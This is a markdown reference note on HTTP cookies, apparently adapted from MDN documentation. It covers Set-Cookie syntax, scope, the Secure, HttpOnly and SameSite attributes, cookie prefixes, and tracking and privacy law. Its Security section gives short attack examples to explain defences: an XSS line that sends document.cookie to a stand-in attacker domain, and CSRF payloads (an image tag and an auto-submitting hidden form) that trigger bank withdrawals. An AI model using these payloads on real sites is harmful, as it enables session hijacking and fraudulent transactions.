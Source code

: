 ## HTTP cookies
- An HTTP cookie (web cookie, browser cookie) is a small piece of data that a server sends to the user's web browser. The browser may store it and send it back with the next request to the same server. Typically, it's used to tell if two requests came from the same browser — keeping a user logged-in, for example. It remembers stateful information for the stateless HTTP protocol.
- Cookies are mainly used for three purposes:
    - Session management
        - Logins, shopping carts, game scores, or anything else the server should remember
    - Personalization
        - User preferences, themes, and other settings
    - Tracking
        - Recording and analyzing user behavior
- Cookies were once used for general client-side storage. While this was legitimate when they were the only way to store data on the client, it is recommended nowadays to prefer modern storage APIs. Cookies are sent with every request, so they can worsen performance (especially for mobile data connections). Modern APIs for client storage are the Web storage API (localStorage and sessionStorage) and IndexedDB.

### Creating cookies
- When receiving an HTTP request, a server can send a Set-Cookie header with the response. The cookie is usually stored by the browser, and then the cookie is sent with requests made to the same server inside a Cookie HTTP header. An expiration date or duration can be specified, after which the cookie is no longer sent. Additionally, restrictions to a specific domain and path can be set, limiting where the cookie is sent.
- The Set-Cookie and Cookie headers
    - The Set-Cookie HTTP response header sends cookies from the server to the user agent. A simple cookie is set like this:
    ~~~text
    Set-Cookie: <cookie-name>=<cookie-value>
    ~~~
    - This header from the server tells the client to store a cookie.
    ~~~text
    HTTP/2.0 200 OK
    Content-type: text/html
    Set-Cookie: yummy_cookie=choco
    Set-Cookie: tasty_cookie=strawberry
    [page content]
    ~~~
- Now, with every new request to the server, the browser will send back all previously stored cookies to the server using the Cookie header.
~~~text
GET /sample_page.html HTTP/2.0
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
~~~
- Session cookies
    - The cookie created above is a session cookie: it is deleted when the client shuts down, because it didn't specify an Expires or Max-Age directive. However, web browsers may use session restoring, which makes most session cookies permanent, as if the browser was never closed.
- Permanent cookies
    - Instead of expiring when the client closes, permanent cookies expire at a specific date (Expires) or after a specific length of time (Max-Age).
    ~~~text
    Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
    ~~~
- Secure and HttpOnly cookies    
    - A secure cookie is only sent to the server with an encrypted request over the HTTPS protocol. Even with Secure, sensitive information should never be stored in cookies, as they are inherently insecure and this flag can't offer real protection. Starting with Chrome 52 and Firefox 52, insecure sites (http:) can't set cookies with the Secure directive.
    - To help mitigate cross-site scripting (XSS) attacks, HttpOnly cookies are inaccessible to JavaScript's Document.cookie API; they are only sent to the server. For example, cookies that persist server-side sessions don't need to be available to JavaScript, and the HttpOnly flag should be set.
    ~~~text
    Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
    ~~~
- Scope of cookies
- The Domain and Path directives define the scope of the cookie: what URLs the cookies should be sent to.
- Domain specifies allowed hosts to receive the cookie. If unspecified, it defaults to the host of the current document location, excluding subdomains. If Domain is specified, then subdomains are always included.
- For example, if Domain=mozilla.org is set, then cookies are included on subdomains like developer.mozilla.org.
- Path indicates a URL path that must exist in the requested URL in order to send the Cookie header. The %x2F ("/") character is considered a directory separator, and subdirectories will match as well.
- For example, if Path=/docs is set, these paths will match:
    - /docs
    - /docs/Web/
    - /docs/Web/HTTP
- SameSite cookies 
    - SameSite cookies let servers require that a cookie shouldn't be sent with cross-site (where Site is defined by the registrable domain) requests, which provides some protection against cross-site request forgery attacks (CSRF).
    - SameSite cookies are relatively new and supported by all major browsers.
    - Here is an example:
    ~~~text
    Set-Cookie: key=value; SameSite=Strict
    ~~~  
    - The same-site attribute can have one of two values (case-insensitive):
        - Strict
            - If a same-site cookie has this attribute, the browser will only send cookies if the request originated from the website that set the cookie. If the request originated from a different URL than the URL of the current location, none of the cookies tagged with the Strict attribute will be included.
        - Lax
            - If the attribute is set to Lax, same-site cookies are withheld on cross-site subrequests, such as calls to load images or frames, but will be sent when a user navigates to the URL from an external site, for example, by following a link.
    - The default behavior if the flag is not set, or not supported by the browser, is to include the cookies in any request, including cross-origin requests.
- Cookie prefixes 
    - The design of the cookie mechanism is such that a server is unable to confirm a cookie was set on a secure origin or indeed, tell where a cookie was originally set. Recall that a subdomain such as application.example.com can set a cookie that will be sent with requests to example.com or other sub-domains by setting the Domain attribute:
    ~~~text
    Set-Cookie: CSRF=e8b667; Secure; Domain=example.com
    ~~~
    - If a vulnerable application is available on a sub-domain, this mechanism can be abused in a session fixation attack. When the user visits a page on the parent domain (or another subdomain), the application may trust the existing value sent in the user's cookie. This could allow an attacker to bypass CSRF protection or hijack a session after the user logs in.
    - Alternatively, if the parent domain does not use HSTS with includeSubdomains set, a user subject to an active MitM (perhaps connected to an open WiFi network) could be served a response with a Set-Cookie header from a non-existent sub-domain. The end result would be much the same, with the browser storing the illegitimate cookie and sending it to all other pages under example.com.
    - Session fixation should primarily be mitigated by regenerating session cookie values when the user authenticates (even if a cookie already exists) and by tieing any CSRF token to the user. As a defence in depth measure, however, it is possible to use cookie prefixes to assert specific facts about the cookie. Two prefixes are available:
    - __Host-
        - If a cookie name has this prefix, it will only be accepted in a Set-Cookie directive if it is marked Secure, does not include a Domain attribute and was sent from a secure origin. In this way, these cookies can be seen as "domain-locked".
    - __Secure-
        - If a cookie name has this prefix, it will only be accepted in a Set-Cookie directive if it is marked Secure and was sent from a secure origin. This is weaker than the __Host- prefix.
    - Cookies sent which are not compliant will be rejected by the browser. Note that this ensures that if a sub-domain were to create a cookie with this name, it would be either be confined to the sub-domain or ignored completely. As the application server will only check for a specific cookie name when determining if the user is authenticated or a CSRF token is correct, this effectively acts as a defence measure against session fixation.
- JavaScript access using Document.cookie
- New cookies can also be created via JavaScript using the Document.cookie property, and if the HttpOnly flag is not set, existing cookies can be accessed from JavaScript as well.
~~~text
document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
~~~
- Cookies created via JavaScript cannot include the HttpOnly flag.
- Please note the security issues in the Security section below. 
- Cookies available to JavaScript can be stolen through XSS.

### Security
- Information should be stored in cookies with the understanding that all cookie values will be visible to and can be changed by the end-user. Depending on the application, it may be desirable to use an opaque identifier which is looked-up server-side or investigate alternative authentication/confidentiality mechanisms such as JSON Web Tokens.
- Session hijacking and XSS
    - Cookies are often used in web application to identify a user and their authenticated session, so stealing a cookie can lead to hijacking the authenticated user's session. Common ways to steal cookies include Social Engineering or exploiting an XSS vulnerability in the application.
~~~text
(new Image()).src = "http://www.evil-domain.com/steal-cookie?cookie=" + document.cookie;
~~~
- The HttpOnly cookie attribute can help to mitigate this attack by preventing access to cookie value through JavaScript. Exfiltration avenues can be limited by deploying a strict Content-Security-Policy.
- Cross-site request forgery (CSRF)
    - Wikipedia mentions a good example for CSRF. In this situation, someone includes an image that isn’t really an image (for example in an unfiltered chat or forum), instead it really is a request to your bank’s server to withdraw money:
    ~~~text 
    <img src="https://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
    ~~~
    - Now, if you are logged into your bank account and your cookies are still valid (and there is no other validation), you will transfer money as soon as you load the HTML that contains this image. For endpoints that require a POST request, it's possible to programmatically trigger a <form> submit (perhaps in an invisible <iframe>) when the page is loaded:
    ~~~text 
    <form action="https://bank.example.com/withdraw" method="POST">
      <input type="hidden" name="account" value="bob">
      <input type="hidden" name="amount" value="1000000">
      <input type="hidden" name="for" value="mallory">
    </form>
    <script>window.addEventListener('DOMContentLoaded', (e) => { document.querySelector('form').submit(); }</script>
    ~~~
- There are a few techniques that should be used to prevent this from happening:
    - GET endpoints should be idempotent—actions that enact a change and do not simply retrieve data should require sending a POST (or other HTTP method) request. POST endpoints should not interchangeably accept GET requests with parameters in the query string.
    - A CSRF token should be included in <form> elements via a hidden input field. This token should be unique per user and stored (for example, in a cookie) such that the server can look up the expected value when the request is sent. For all non-GET requests that have the potential to perform an action, this input field should be compared against the expected value. If there is a mismatch, the request should be aborted.
        - This method of protection relies on an attacker being unable to predict the user's assigned CSRF token. The token should be regenerated on sign-in.
    - Cookies that are used for sensitive actions (such as session cookies) should have a short lifetime with the SameSite attribute set to Strict or Lax. (See SameSite cookies above). In supporting browsers, this will have the effect of ensuring that the session cookie is not sent along with cross-site requests and so the request is effectively unauthenticated to the application server.
    - Both CSRF tokens and SameSite cookies should be deployed. This ensures all browsers are protected and provides protection where SameSite cookies cannot help (such as attacks originating from a separate subdomain).
    - For more prevention tips, see the OWASP CSRF prevention cheat sheet.
### Tracking and privacy
- Third-party cookies
    - Cookies have a domain associated to them. If this domain is the same as the domain of the page you are on, the cookies is said to be a first-party cookie. If the domain is different, it is said to be a third-party cookie. While first-party cookies are sent only to the server setting them, a web page may contain images or other components stored on servers in other domains (like ad banners). Cookies that are sent through these third-party components are called third-party cookies and are mainly used for advertising and tracking across the web. See for example the types of cookies used by Google. Most browsers allow third-party cookies by default, but there are add-ons available to block them (for example, Privacy Badger by the EFF).
    - If you are not disclosing third-party cookies, consumer trust might get harmed if cookie use is discovered. A clear disclosure (such as in a privacy policy) tends to eliminate any negative effects of a cookie discovery. Some countries also have legislation about cookies. See for example Wikimedia Foundation's cookie statement.
- Do-Not-Track
    - There are no legal or technological requirements for its use, but the DNT header can be used to signal that a web application should disable either its tracking or cross-site user tracking of an individual user. See the DNT header for more information.
- EU cookie directive
    - Requirements for cookies across the EU are defined in Directive 2009/136/EC of the European Parliament and came into effect on 25 May 2011. A directive is not a law by itself, but a requirement for EU member states to put laws in place that meet the requirements of the directive. The actual laws can differ from country to country.
    - In short the EU directive means that before somebody can store or retrieve any information from a computer, mobile phone or other device, the user must give informed consent to do so. Many websites have added banners (AKA "cookie banners") since then to inform the user about the use of cookies.
    - For more, see this Wikipedia section and consult state laws for the latest and most accurate information.
- Zombie cookies and Evercookies
    - A more radical approach to cookies are zombie cookies or "Evercookies" which are recreated after their deletion and are intentionally hard to delete forever. They are using the Web storage API, Flash Local Shared Objects and other techniques to recreate themselves whenever the cookie's absence is detected.
        - Evercookie by Samy Kamkar
        - Zombie cookies on Wikipedia 
        
### References 
- https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html
- https://github.com/samyk/evercookie
- https://en.wikipedia.org/wiki/Zombie_cookie        